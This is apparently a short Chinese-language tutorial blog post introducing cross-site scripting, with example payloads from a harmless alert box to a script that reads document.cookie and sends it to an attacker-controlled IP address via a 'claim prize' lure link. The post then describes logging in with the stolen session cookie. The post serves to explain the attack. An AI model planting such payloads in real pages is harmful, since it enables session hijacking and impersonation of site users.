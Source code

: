 ```yaml
---
title: 跨站脚本攻击介绍
date: 2017-08-16 19:56:27
categories: 网络安全
tags: xss
---
```


## xss简介
跨站脚本在英文中称为Cross-Site Scripting，缩写为CSS。但是，由于与层叠样式表 (Cascading Style Sheets)缩写同名，特将跨站脚本缩写为XSS。
跨站脚本，顾名思义，就是恶意攻击者利用网站漏洞往Web页面里插入恶意代码 例如

### 案例一
现在假设攻击者在论坛网站A的一个帖子进行了如下回复： 
<!--more-->
```js
<script>alert("hello world")</script>
``` 

如果网站未进行相关的防御，那么其他人浏览帖子的人就会出现hello world 弹窗，这种危害性并不大。


### 案例二
但是我们可以通过xss获取用户的cookie，并查出sessionID。例如

```js
<script>alert(document.cookie)</script>
```  

你可以把你拿来的cookie定向到另一个页面，通过诱惑性的标题诱导用户点击此连接，然后就调到另外的网站 

```js  
<script type="text/javascript">
function send()
{
	var cookie = document.cookie;  
    window.location.href = "http://10.33.56.43/attackPage.asp?cookies=" + cookie;  
}  
</script> 
<a onClick="send()"><u>领奖</u></a>
```  

用户的cookie我也拿到了，如果服务端session没有设置过期的话，我以后甚至拿这个cookie而不需用户名密码，就可以以这个用户的身份登录成功，结合csrf，来搞破坏

##参考资料
http://book.51cto.com/art/201102/245185.htm

